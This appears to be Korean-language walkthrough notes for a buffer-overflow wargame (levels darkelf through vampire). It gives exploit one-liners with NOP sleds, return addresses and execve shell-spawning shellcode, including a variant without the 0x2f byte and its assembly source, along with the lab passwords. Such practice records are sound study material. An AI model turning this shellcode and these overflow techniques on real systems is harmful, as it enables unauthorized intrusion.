 (\x67\xfd\xff\xbf: argv[2] 주소)
argv[2] 값으로 접근 (break *main+194, x/100s $esp 로 두 번째 인자가 저장되는 주소 찾아서 접근)

[darkelf] 
./orgeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee `python -c 'print "A" * 44 + "\x24\xfd\xff\xbf"+ " " + "\x90" * 100 + “\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80”

orgeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee 로 이름 바꾼 후 위와 동일하게 진행 
pwd: timewalker

[orge] ./$(python -c 'print "\x90" * 100 + “\x31\xc0\x50\xbe\x2e\x2e\x72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80”’) `python -c ‘print “A” * 44 + “\xcd\xfc\xff\xbf”’`

pwd: aspirin

[135자리 argv[0] 주소: 0xbffffcad]  
[\x2f 없는 SHELLCODE]
\x31\xc0\x50\xbe\x2e\x2e\x72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

.global main

main:
# execve("/bin/sh", 0x0, 0x0) ;

        xor     %eax, %eax
        push    %eax
        mov     $0x67722e2e, %esi
        add     $0x1010101, %esi
        push    %esi
        mov     $0x6e69622e, %edi
        inc     %edi
        push    %edi
        mov     %esp, %ebx
        push    %eax
        mov     %esp, %edx
        push    %ebx
        mov     %esp, %ecx
        mov     $0xb, %al
        int     $0x80

[troll] ./vampire `python -c 'print "A" * 44 + “\x48\x77\xfe\xbf” + “ “ + “\x90” * 100000 + “\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80”’`

pwd: music world

핵심: argv[2]에 엄청 값을 많이 넣어 스택 주소가 0xbffff 형식을 방지 
0xbffe7748

[vampire] ./$(python -c ‘print “\x90” * 100 + “\x2f 없는 SHELLCODE”’) `python -c 'print "A" * 44 + "\xb0\xff\xff\xbf"'`

pwd: shellcoder
